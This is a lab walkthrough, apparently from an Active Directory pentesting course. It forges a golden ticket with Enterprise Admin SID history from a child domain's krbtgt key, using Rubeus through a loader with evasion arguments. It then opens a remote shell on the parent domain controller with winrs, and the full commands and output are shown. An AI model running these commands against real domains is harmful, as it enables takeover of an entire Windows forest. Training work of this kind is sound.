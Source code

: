 # Learning Objective 19 (Privilege Escalation | Abuse Across Domain Trusts - `krbtgt` Key)

## Tasks

1. **Using DA access to `dollarcorp.moneycorp.local`, escalate to EA privileges by forging a golden ticket using `dollarcorp`'s `krbtgt` TGT encryption key hash**

---

## Attack Path Steps

- **Forge a Golden Ticket (with EA SID History) using the `krbtgt` TGT Encryption Key Hash from the Child DC for Privilege Escalation**
- **Leverage the Forged Ticket to Gain EA Access to the Parent DC**

---

## Solution

1. **Using DA access to `dollarcorp.moneycorp.local`, escalate to EA privileges by forging a golden ticket using `dollarcorp`'s `krbtgt` TGT encryption key hash**

- **Forge a Golden Ticket (with EA SID History) using the `krbtgt` TGT Encryption Key Hash from the Child DC for Privilege Escalation**

We already have the `krbtgt` hash from `dcorp-dc` (see *Learning Objective 08*).

Let's create a **golden ticket** (not an inter-realm TGT) and inject it. Due to the trust, the parent domain will trust the TGT.

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /user:Administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt`:
```
[SNIP]

[*] Action: Build TGT📌

[*] Building PAC

[*] Domain         : DOLLARCORP.MONEYCORP.LOCAL (dcorp)
[*] SID            : S-1-5-21-719815819-3726368948-3917688648📌
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-335606122-960912869-3279953914-519📌
[*] ServiceKey     : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt📌
[*] Target         : dollarcorp.moneycorp.local

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator🎭@dollarcorp.moneycorp.local🏛️'

[*] AuthTime       : 2/17/2025 5:53:23 AM
[*] StartTime      : 2/17/2025 5:53:23 AM
[*] EndTime        : 2/17/2025 3:53:23 PM
[*] RenewTill      : 2/24/2025 5:53:23 AM

[*] base64(ticket.kirbi):

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x38c010

Cached Tickets: (1)

#0>     Client: Administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/dollarcorp.moneycorp.local @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 2/17/2025 5:53:23 (local)
        End Time:   2/17/2025 15:53:23 (local)
        Renew Time: 2/24/2025 5:53:23 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

- **Leverage the Forged Ticket to Gain EA Access to the Parent DC**

We can now access `mcorp-dc`!

`winrs -r:mcorp-dc.moneycorp.local cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator.dcorp>
```
🚀

![mcorp-dc | administrator](https://custom-icon-badges.demolab.com/badge/mcorp--dc-administrator-64b5f6?logo=windows11&logoColor=white)

`set username`:
```
USERNAME=Administrator👑
```

`set computername`:
```
COMPUTERNAME=MCORP-DC🖥️
```
🚩

---
---
